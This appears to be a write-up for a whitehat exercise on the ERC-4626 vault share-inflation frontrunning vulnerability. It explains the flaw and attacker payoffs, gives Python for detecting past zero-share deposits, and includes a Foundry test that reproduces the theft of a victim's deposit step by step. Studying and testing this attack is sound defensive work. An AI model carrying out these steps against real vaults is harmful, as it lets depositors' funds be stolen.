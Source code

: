 # Vault - Tier 1
You are looking through an old version of the OpenZeppelin implementation of ERC-4626 and notice a vulnerability that requires frontrunning an innocent user. You have been granted a large amount of ETH (say e.g. 1k ETH, but you are free to choose the amount :) ) and want to set up a whitehat bot to execute this exploit and return the funds to the user.


- a) Describe the vulnerability and the payoffs for an attacker.

The key issue in the ERC-4626 tokenized vault standard is a vulnerability that comes from how shares are calculated when assets are deposited. Specifically, the formula relies on the asset.balanceOf(address(this)) as the denominator, and can be manipulated (frontrunned) by a potential attacker, by making a transfer to the vault contract right before the legitimate transaction to deposit on the Vault

``` sharesAmount = totalShares * assetAmount / asset.balanceOf(address(this)) ```

Depending on the implementation an protection mechanisms in place, the potential vulnerability might differ: 
1.  A vault might be vulnerable to a total loss of funds to the user, going directly to the attacker, if the vault doesn't implement any protection, by achieving rounding the shares of the depositor to 0.
2.  A vault might be vulnerable to a partial loss of funds if there is protection, by rounding the shares of the depositor to 1
3. A vault might have proper protection in place by having dead shares, which make impossible to the attacker to make a profit and extremely expensive to make a griefing attack.

The payoffs for the attacker, in 1. are the most important, as he can receive the 100% of the deposit from the innocent user. In 2. he can also ensure a profit. He doesn't take a risk by executing the attack, since he won't be losing funds in any case.

In 3, however, he would have to lose an important quantity just to sabotage the deposit of the user.

For the shake of this exercise, I am assuming the implementation we are looking for is having a vulnerability 1, since that was the case for the old OpenZeppeling implementation of ERC4626

- b)  Produce code that can check if this vulnerability has occurred in the past and determine how much value was lost, if any.

Assuming we are in the first scenario, we can make a simple assumption to see if the attack was previously done, by filtering previous Deposit events on the vault, where the assets deposited are > 0 and the shares received are 0. The attacker could have rounded the shares of the victim to 1 but we will assume the attacker doesn't leave money on the table.

```python
def check_for_attack(events):
    for event in events:
        assets = event['args']['assets']
        shares = event['args']['shares']

        print(f"Assets: {assets}, Shares: {shares}")

        # Check if shares are 0 and assets > 0
        if shares == 0 and assets > 0:
            caller = event['args']['caller']
            owner = event['args']['owner']
            print(f"Potential attack detected! Caller: {caller}, Owner: {owner}, Assets lost: {assets} tokens")
        else:
            print("No attack detected")
```


- c)  Write code for the bot that can carry out the exploit (don’t worry about returning user funds).

A test on foundry was created replicating the full situation, where the victim got out of tokens, and we were able to get access to 100% of their deposit can be found on `./simulations`

```solidity
    function test() public {
        uint256 vaultBalanceStart = weth.balanceOf(address(vault));
        uint256 victimBalanceStart = weth.balanceOf(victim);
        uint256 whitehatBalanceStart = weth.balanceOf(whitehat);

        console2.log("vault balance start", vaultBalanceStart);
        console2.log("victim balance start", victimBalanceStart);
        console2.log("whitehat balance start", whitehatBalanceStart);

        vm.startPrank(whitehat);
        vault.deposit(1, whitehat);

        uint256 vaultBalanceAfterMint = weth.balanceOf(address(vault));

        assertEq(vaultBalanceAfterMint, 1);

        weth.transfer(address(vault), inflationAmount);

        uint256 vaultBalanceAfterTransfer = weth.balanceOf(address(vault));
        uint256 vaultTotalSupplyAfterTransfer = vault.totalSupply();

        console2.log("vault balance after transfer", vaultBalanceAfterTransfer);
        console2.log("vault total supply after transfer", vaultTotalSupplyAfterTransfer);
        console2.log("victim deposit");

        vm.startPrank(victim);
        vault.deposit(victimDeposit, victim);
        
        uint256 victimBalanceAfterDeposit = weth.balanceOf(victim);
        uint256 vaultBalanceAfterDeposit = weth.balanceOf(address(vault));
        uint256 vaultTotalSupplyAfterDeposit = vault.totalSupply();
        uint256 victimShares = vault.balanceOf(victim);
        uint256 whitehatShares = vault.balanceOf(whitehat);

        console2.log("victim balance after deposit", victimBalanceAfterDeposit);
        console2.log("vault balance after deposit", vaultBalanceAfterDeposit);
        console2.log("vault total supply after deposit", vaultTotalSupplyAfterDeposit);
        console2.log("victim shares", victimShares);
        console2.log("whitehat shares", whitehatShares);

        assertEq(victimShares, 0);
        assertEq(whitehatShares, 1);
        assertEq(vaultBalanceAfterDeposit, inflationAmount + victimDeposit + 1);
    }
```